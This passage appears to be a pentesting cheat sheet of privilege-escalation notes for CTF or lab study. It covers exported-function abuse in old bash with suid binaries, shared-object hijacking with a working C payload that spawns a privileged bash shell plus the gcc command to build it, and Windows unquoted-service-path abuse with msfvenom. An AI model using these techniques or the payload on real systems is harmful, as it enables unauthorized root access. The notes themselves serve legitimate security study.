 *   Abuse old bash versions
    *   bash < 4.2-048:
        *   Find a suid binary, check with `strings` what linux binary it's using
        *   Create a function with the same name `function <path_to_used_binary> { /bin/bash -p; };`
        *   Export it `export -f /usr/sbin/service`
        *   Run the suid binary
*   Hijack shared objects ([resource](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Abusing%20Shared%20Libraries%20-%20boiteaklou.pdf)):
    *   requirements:
        *   a suid binary or a binary callable with sudo
        *   a way to make  the binary call a shared object you wrote:
            *   shared object does not exist => create it
            *   shared object is writable => overwrite it
            *   binary is callable with sudo and keeps `LD_LIBRARY_PATH` variable => export the env variable when calling the binary
            *   `/etc/ld.so.conf.d` contains a config file which points to somewhere you can write => put your exploit in the pointed path
    *   how to check exploitability:
        *   Check loaded shared objects and if there is variables like RUNPATH: `readelf -d ./binary`
        *   Check if the binary finds the shared objects `ldd binary`
        *   
    *   how to exploit:
        *   write your exploit (you can replace the function name by a function used by the binary):
            ```c
            #include <stdio.h>
            #include <unistd.h>
            #include <sys/types.h>
            void _init(){
                setreuid(geteuid(), geteuid());
                system("/bin/bash -p");
            }
            ```
        *   compile it: `gcc -shared -fPIC -nostartfiles -o lib.so exploit.c`
        *   put it somewhere where the binary will load it
        *   run the binary

#### Windows

Exploit windows native binaries : [LOLBAS](https://lolbas-project.github.io/)

Privesc techniques:
- Unquoted path ([detailed article](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)):
    -   Identify a unquoted path used in a service or scheduled task
    -   Create a payload (msfvenom) that will be called by the service or scheduled task because of the withespace in the path
    -   Restart the service or the machine if the service or scheduled task is called at start

## Pivoting

Resources :
*    https://tryhackme.com/room/wreath
